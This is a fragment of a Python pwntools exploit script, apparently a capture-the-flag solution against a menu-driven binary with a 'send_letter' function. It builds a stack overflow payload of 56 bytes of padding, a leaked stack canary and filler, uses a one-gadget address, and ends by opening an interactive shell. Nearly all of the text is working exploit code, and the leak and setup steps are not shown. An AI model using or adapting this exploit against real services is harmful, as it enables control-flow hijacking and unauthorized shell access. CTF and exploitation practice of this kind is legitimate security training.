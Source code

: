 ```python
payload = p64(oneshot)[:7]
print(len(payload))
send_letter(1, comp=str(stack_addr), con=payload)

'''
send_letter(2, buf=payload)

stack_addr = stack_leak - 0xe0 - 0x30
send_letter(3, ptr=str(stack_addr).encode())
'''

# exploit
payload = b'A' * 56
payload += p64(canary_leak)
payload += b'B' * 8
send_letter(2, buf=payload)

#go out
#go_out()
p.sendlineafter('> ', '3')
p.interactive()
```